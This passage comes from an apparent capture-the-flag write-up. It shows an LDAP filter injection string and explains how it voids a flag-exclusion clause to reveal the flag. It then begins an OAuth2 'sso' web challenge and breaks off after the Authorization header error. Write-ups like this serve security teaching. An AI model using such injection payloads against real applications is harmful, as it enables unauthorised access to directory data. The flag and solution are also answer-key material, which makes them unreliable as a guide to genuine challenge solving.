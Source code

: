 And indeed, only Pete shows up. Let's try a proper injection:

    input:  *))(|(objectClass=*
    filter: (&(objectClass=person)(&(givenName=*))(|(objectClass=*)(!(givenName=Flag))))
    meaning:
      (objectClass is person)
      AND
      (
        (givenName is any)
      )
      AND
      (
        (objectClass is ANY)
        OR
        NOT(givenName is Flag)
      )

As you can see, the flag exclusion mechanism became optional (either the entry is not the flag OR its object class is any, which is always true). And with that, we can see the flag:

`flag{ld4p_inj3ction_i5_a_th1ng}`

## 100 Web / sso ##

**Description**

> Don't you love undocumented APIs
> 
> Be the `admin` you were always meant to be
> 
> http://web.chal.csaw.io:9000
> 
> Update chal description at: 4:38 to include solve details
> 
> Aesthetic update for chal at Sun 7:25 AM

**No files provided**

**Solution**

We start at a rather empty website.

```html
<h1>Welcome to our SINGLE SIGN ON PAGE WITH FULL OAUTH2.0!</h1>
<a href="/protected">.</a>
<!--
Wish we had an automatic GET route for /authorize... well they'll just have to POST from their own clients I guess
POST /oauth2/token
POST /oauth2/authorize form-data TODO: make a form for this route
-->
```

Trying to go to `/protected` results in the page telling us:

    Missing header: Authorization
